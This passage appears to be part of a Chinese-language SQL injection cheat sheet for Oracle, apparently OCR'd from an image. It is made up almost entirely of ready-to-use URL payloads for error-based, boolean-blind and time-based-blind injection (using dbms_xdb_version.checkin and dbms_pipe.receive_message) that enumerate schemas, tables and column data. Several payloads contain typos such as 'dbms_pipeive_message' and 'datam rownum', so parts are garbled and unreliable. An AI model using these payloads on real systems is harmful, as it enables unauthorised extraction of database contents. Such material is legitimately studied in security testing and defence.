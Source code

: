 ```
?id=1 and (select dbms_xdb_version.checkin((select owner from (select table_name,rownum as limit from (select table_name from all_tables where owner = '库名')) where limit = 1)) from dual) is not null
# 爆字段
?id=1 and (select dbms_xdb_version.checkin((select column_name, rownum as limit from (select column_name from all_tab_columns where table_name = '表名')) where limit = 1) from dual) is not null
# 爆数据
?id=1 and (select dbms_xdb_version.checkin((select data from (select datam rownum as limit from (select "字段1"||%27~%27||"字段2" as data from 库名.表名)) where limit = 1)) from dual) is not null
```

### **Oracle_布尔盲注**

```
# 判断注入
?id=1 and 0>6 或 0<6
# 判断数据库数量
?id=1 and (select count(distinct(owner)) from all_tables) = 10
# 判断第 1 个 库的库名长度
?id=1 and (select length(owner) from (select owner,rownum as limit from (select distinct(owner) from all_tables)) where limit = 1) = 5
# 判断第 1 个 库的库名的第一个字母
?id=1 and (select ascii(substr(owner,1,1)) from (select owner,rownum as limit from (select distinct(owner) from all_tables)) where limit = 1) = 100
# 判断指定库中,表的数量
?id=1 and (select count(table_name) from all_tables where owner = '库名') = 5
# 判断指定库中, 第 1 个表的长度
?id=1 and (select length(table_name) from (select table_name,rownum as limit from (select table_name from all_tables where owner = '库名')) where limit =1) = 4
# 判断指定库中, 第 1 个表的第 1 个字母
?id=1 and (select ascii(substr(table_name,1,1)) from (select table_name, rownum as limit from (select table_name from all_tables where owner = '库名')) where limit = 1) = 100
```

### **Oracle_时间盲注**

```
# 时间盲注的函数区别于其他数据库, 由 case when then else end 组成
# 睡觉函数: dbms_pipe.receive_message(1,3)
# 语法: (case when (payload) then dbms_pipe.receive_message(1,3) else 1 end)
# 判断注入, 是否睡眠 3 秒
?id=1 and 1=1 dbms_pipe.receive_message(1, 3)
# 判断数据库数量
?id=1 and (case when (select count(distinct(owner)) from all_tables) > 10 then dbms_pipeive_message(1, 3) else 1 end) = 1
# 判断第一个数据的库名长度
?id=1 and (case when (select length(owner) from (select owner,rownum as limit from (select distinct(owner) from all_tables)) where limit = 1) = 5 then dbms_pipeive_message(1, 3)else 1 end) = 1
# 判断第 1 个数据库名的第 1 个字母
?id=1 and (case when (select ascii(substr(owner,1,1)) from (select owner,rownum as limit from (select distinct(owner) from all_tables)) where limit = 1)=84 then dbms_pipe.receive_message(1,3) else 1 end) = 1

# 判断指定库中第 1 个表的长度
?id=1 and (case when (select length(table_name) from (select table_name,rownum as limit from (select table_name from all_tables where owner = '库名')) where limit = 1) = 4 then
dbms_pipe.receive_message(1, 3) else 1 end) = 1
# 判断指定库中第 1 个表的第 1 个字母
id=1 and (case when (select ascii(substr(table_name,1,1)) from (select table_name,rownum as limit from (select table_name from all_tables where owner = '库名')) where limit = 1 ) = 68 then dbms_pipe.receive_message(1, 3) else 1 end) = 1
```
